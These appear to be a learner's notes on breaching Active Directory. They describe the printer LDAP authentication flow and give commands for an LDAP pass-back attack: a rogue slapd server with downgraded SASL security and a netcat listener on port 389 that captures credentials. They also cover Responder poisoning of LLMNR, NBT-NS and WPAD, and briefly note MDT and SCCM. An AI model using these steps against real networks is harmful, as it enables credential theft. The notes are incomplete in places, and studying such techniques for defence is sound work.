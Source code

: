 1. User sends printing requests with AD user and password
2. Printer uses its AD credentials to create and LDAP bind request
3. DC provides bind response
4. Printer requests LDAP user search
5. User search response
6. LDAP Bind request with user credentials
7. Server sends bind response
8. User is authenticated and print job is accepted.

## LDAP pass-back attack

Configure LDAP configuration such as IP or hostname of the LDAP server. Then intercept authentication to recover LDAP credentials.

1. sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
2. sudo dpkg-reconfigure -p low slapd
3. Create olcSaslSecProps.ldif file

```ldif
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

4. sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
5. nc -lnvp 389
6. /settings and put your ip and send request
7.

## SMB

SMB governs everything from inter-network file-sharing to remote administration. Even the out of paper alert is from the smb protocol.

A responder usually will attempt to poison any Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Servier (NBT-NS) and Web Proxy Auto-Discovery (WPAD) requests that are detected. On large networks, these protocols allow hosts to perform their own local DNS resolution for all hosts on the same local network. Rather than overburdening network resources such as the DNS servers, hosts can first attempt to determine if the host they are looking for is on the same local network by sending out LLMNR requests and seeing if any hosts respond. The NBT-NS is the precursor protocol to LLMNR, and WPAD requests are made to try and find a proxy for future HTTP(s) connections.

Rouge devices would also receive these requests.
Responder can be used to intercept the challenges

# MDT & SCCM

Microsoft Deployment Toolkit
Assists with automating the deployment of Microsoft Operating Systems.

SCCM: System Center Configuration Manager
Manages updates for all Microsoft applications, services, and OS.
